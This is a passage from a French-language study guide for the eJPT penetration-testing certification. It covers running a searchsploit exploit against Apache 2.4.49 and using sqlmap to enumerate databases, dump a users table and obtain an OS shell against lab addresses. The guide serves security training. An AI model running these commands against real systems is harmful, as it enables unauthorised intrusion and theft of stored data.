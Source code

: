### Exploitation manuelle avec searchsploit

Parfois, vous devrez utiliser des exploits manuels :

```bash
# Trouver un exploit
searchsploit apache 2.4.49

# Copier l'exploit dans votre répertoire de travail
searchsploit -m 50383.py

# Examiner le code de l'exploit
cat 50383.py

# Modifier l'exploit si nécessaire (adresses IP, ports, etc.)
nano 50383.py

# Exécuter l'exploit
python3 50383.py http://10.10.10.15
```

**En clair, pour un débutant** : Cette méthode est comme utiliser un outil spécialisé que vous devez parfois ajuster vous-même, contrairement à Metasploit qui est plus automatisé. C'est comme choisir entre une boîte à outils complète et un outil unique mais précis.

### Exploitation des applications web avec sqlmap

Les injections SQL sont courantes dans l'eJPT :

```bash
# Test basique d'injection SQL
sqlmap -u "http://10.10.10.15/page.php?id=1"

# Extraction des bases de données
sqlmap -u "http://10.10.10.15/page.php?id=1" --dbs

# Extraction des tables d'une base de données
sqlmap -u "http://10.10.10.15/page.php?id=1" -D database_name --tables

# Extraction des données d'une table
sqlmap -u "http://10.10.10.15/page.php?id=1" -D database_name -T users --dump

# Obtenir un shell via SQL injection
sqlmap -u "http://10.10.10.15/page.php?id=1" --os-shell
```

**En clair, pour un débutant** : SQLmap teste automatiquement si un site web est vulnérable aux injections SQL (une faille permettant de manipuler la base de données). Si c'est le cas, il peut extraire des informations ou même vous donner un accès au serveur.

### Labs INE : "Exploiting Windows Vulnerabilities" & "Exploiting Linux Vulnerabilities"

Ces labs d'INE vous permettent de pratiquer l'exploitation sur des systèmes Windows et Linux. Vous y apprendrez à :
- Identifier les vulnérabilités spécifiques à chaque système d'exploitation
- Utiliser Metasploit pour exploiter ces vulnérabilités
- Comprendre les différences entre l'exploitation de Windows et Linux
- Adapter votre approche en fonction du système cible
